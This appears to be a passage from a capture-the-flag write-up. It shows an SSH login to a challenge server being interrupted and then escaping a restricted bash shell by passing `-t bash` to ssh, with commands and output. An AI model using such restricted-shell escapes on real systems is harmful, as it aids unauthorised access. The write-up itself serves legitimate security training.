 ```bash

        LATES Mortors Entertainment System v6.2              

             Please enter your credentials                   
=============================================================
Username: ^CTraceback (most recent call last):
  File "/home/user/login.py", line 12, in <module>
    user = raw_input("Username: ")    
KeyboardInterrupt
user@b43e27468d7b:~$ 
```

Unfortunately, we are dropped into a restricted bash from where we cannot run most commands.

```bash
user@b43e27468d7b:~$ ls
-rbash: ls: command not found
user@b43e27468d7b:~$ /bin/ls
-rbash: /bin/ls: restricted: cannot specify `/' in command names
```

However, if we pass `-t bash` as an argument to ssh, then ssh will use rbash to run bash on login (before command restrictions apply), and drop us into a non-restricted shell:


```bash

└─[$] ssh user@challengecybersec.fr -p 5004 -t bash
user@challengecybersec.fr's password: 
=============================================================

                 LATES Motors Inc                            

        LATES Mortors Entertainment System v6.2              

             Please enter your credentials                   
=============================================================
Username: ^CTraceback (most recent call last):
  File "/home/user/login.py", line 12, in <module>
    user = raw_input("Username: ")    
KeyboardInterrupt
bash: mesg: command not found

user@b43e27468d7b:~$
user@b43e27468d7b:~$ w
bash: w: command not found

user@b43e27468d7b:~$ /usr/bin/w
 16:37:30 up 9 days,  7:25,  2 users,  load average: 1.10, 1.19, 1.40
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
user     pts/0    109.18.55.186    16:02   24:58   5.08s  0.05s sshd: user [priv]
user     pts/1    82.65.106.231    16:36    2.00s  0.02s  0.00s /usr/bin/w
```
